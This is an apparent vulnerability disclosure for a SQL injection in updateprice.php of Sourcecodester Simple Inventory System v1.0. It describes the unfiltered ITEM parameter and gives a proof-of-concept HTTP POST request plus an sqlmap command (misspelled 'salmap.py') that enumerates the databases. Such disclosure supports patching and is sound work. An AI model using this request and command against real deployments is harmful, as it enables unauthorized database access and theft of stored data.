 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：updateprice.php

injection parameter:$_POST['ITEM']

#### 1.Vulnerability analysis

As shown in the figure below, in updateprice.php, after the ITEM parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through Boolean injection.

![image-20240517161051373](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-2.assets/image-20240517161051373.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /updateprice.php HTTP/1.1
Host: 10.15.6.184:82
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://10.15.6.184:82
Connection: close
Referer: http://10.15.6.184:82/tableedit.php
Cookie: PHPSESSID=b3e8bialebcp70drgpo4ojapp1
Upgrade-Insecure-Requests: 1

ITEM=1&itemprice=123
```

python salmap.py -r 1.txt --batch --dbs

![image-20240517160753953](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-2.assets/image-20240517160753953.png)

